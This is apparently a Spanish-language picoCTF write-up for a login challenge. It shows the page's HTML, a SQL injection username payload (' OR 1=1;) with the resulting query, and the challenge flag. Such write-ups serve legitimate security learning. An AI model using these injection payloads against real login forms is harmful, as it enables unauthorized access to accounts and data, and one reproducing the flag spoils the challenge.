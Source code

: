 ## Objetivo
Can you login to this website?
## Solución
- ##### Inspeccionamos el código fuente de la página, y podemos ver que hay un valor "hidden".
```html
<!doctype html>
<html>
<head>
    <title>Login</title>
    <link rel="stylesheet" type="text/css" href="//maxcdn.bootstrapcdn.com/bootstrap/3.3.5/css/bootstrap.min.css">
</head>
<body>
<div class="container">
    <div class="row">
        <div class="col-md-12">
            <div class="panel panel-primary" style="margin-top:50px">
                <div class="panel-heading">
                    <h3 class="panel-title">Log In</h3>
                </div>
                <div class="panel-body">
                    <form action="login.php" method="POST">
                        <fieldset>
                            <div class="form-group">
                                <label for="username">Username:</label>
                                <input type="text" id="username" name="username" class="form-control">
                            </div>
                            <div class="form-group">
                                <label for="password">Password:</label>
                                <div class="controls">
                                    <input type="password" id="password" name="password" class="form-control">
                                </div>
                            </div>

                            <input type="hidden" name="debug" value="1">

                            <div class="form-actions">
                                <input type="submit" value="Login" class="btn btn-primary">
                            </div>
                        </fieldset>
                    </form>
                </div>
            </div>
        </div>
    </div>
</div>
</body>
</html>
```

- ##### Haremos una inyección SQL para acceder al sitio. 
```
username: ' OR 1=1;
password: password
SQL query: SELECT * FROM users WHERE name='' OR 1=1;' AND password='password'

Logged in! But can you see the flag, it is in plainsight.
```

- ##### Y al acceder, no podemos ver la bandera, pero si inspeccionamos el código fuente nuevamente, obtenemos la bandera
```
Flag: picoCTF{L00k5_l1k3_y0u_solv3d_it_d3c660ac}
```
## Notas Adicionales
## Referencias
- [PicoCTF](https://play.picoctf.org)